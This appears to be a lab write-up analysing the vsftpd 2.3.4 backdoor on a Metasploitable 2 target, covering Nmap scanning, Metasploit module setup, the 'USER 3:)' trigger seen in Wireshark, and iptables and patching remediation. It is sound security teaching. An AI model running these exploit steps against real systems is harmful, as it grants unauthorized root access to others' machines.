




# Vulnerability Assessment & Exploitation: vsftpd 2.3.4 Backdoor Analysis

## 📌 Executive Summary
This laboratory documentation demonstrates an end-to-end security assessment of the historic backdoor vulnerability in the **vsftpd 2.3.4** service.

**The project covers:**
* **Discovery via reconnaissance**
* **Exploitation to obtain root-level access**
* **Protocol-level deep packet inspection using Wireshark**
* **Defensive hardening strategies using Linux netfilter/iptables**

---

## 🛠️ Environment & Tooling

| Component | Details |
| :--- | :--- |
| **Target System** | Metasploitable 2 |
| **Target IP** | `192.168.56.102` |
| **Operating System** | Linux Kernel 2.6.24 |
| **Attacking Machine** | Kali Linux |
| **Attacker IP** | `192.168.56.101` |
| **Network Scanner** | Nmap |
| **Exploitation Framework** | Metasploit Framework (MSF) |
| **Packet Analyzer** | Wireshark |
| **Host Defense** | Linux iptables |

---

## 🔍 Phase 1: Reconnaissance & Service Enumeration

An aggressive service and version detection scan was conducted to identify open network ports and vulnerable service banners on the target host:

```bash
sudo nmap -sV -p 21 192.168.56.102
```




### 🎯 Phase 2: Exploitation Setup — Metasploit Framework

The vulnerability verification was automated via the Metasploit Framework using the dedicated exploit module:

msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
show options

#### Module Target
* vsftpd 2.3.4 built-in trigger mechanism.

#### Payload Verification
The configuration validates the target parameters:
* RHOSTS: 192.168.56.102
* RPORT: 21

as well as the attacker's handler coordinates:
* LHOST: 192.168.56.101
* LPORT




### 📌 Phase 3: Exploitation & Proof of Concept (PoC)

Upon executing the exploit module, the backdoor routine was successfully triggered.

The handler spawned an interactive session, granting root-level administrative privileges over the target machine.

#### Privilege Verification Commands
whoami
id
uname -a

#### Verification
* whoami — Confirmed the user execution context as root.
* id — Confirmed UID 0 and GID 0.
* uname -a — Verified the kernel and system architecture.




### 🔬 Phase 4: Network Traffic & Packet Analysis — Wireshark

To understand the underlying mechanics, deep packet inspection was performed using Wireshark while filtering traffic associated with ports 21 and 6200.

#### Backdoor Trigger Mechanism
Inspecting the TCP stream on port 21 revealed that the exploit sends a username string terminated with a smiley-face sequence:

USER 3:)

#### Technical Impact
In vulnerable builds, this specific sequence triggers the service to spawn a command-shell listener on TCP port 6200, enabling unauthenticated remote code execution.




### 🛡️ Phase 5: Remediation & Defensive Hardening

To prevent similar vulnerabilities in production environments, the following defensive measures should be implemented:

#### 1. Service Upgradation & Patch Management
Immediately upgrade vsftpd to secure, patched versions or transition entirely to actively maintained FTP daemons.

#### 2. Network Perimeter Filtering — iptables
Configure host-based firewalls to drop unauthorized inbound traffic on abnormal or dangerous listening ports:

sudo iptables -A INPUT -p tcp --dport 6200 -j DROP
sudo iptables -L -n -v

#### 3. Protocol Modernization
Deprecate cleartext protocols such as FTP and enforce encrypted alternatives such as:
* SFTP — SSH File Transfer Protocol
* FTPS — FTP over TLS


### 📝 Conclusion

This assessment demonstrates how a vulnerable network service can be identified through reconnaissance, analyzed at the protocol level, and assessed in a controlled laboratory environment.

The combination of Nmap, Metasploit, and Wireshark provides visibility across the different stages of the assessment, while patch management, network filtering, and protocol modernization help mitigate the associated risks.

> **Lab Environment:** This assessment was performed against a deliberately vulnerable Metasploitable 2 system in a controlled environment.
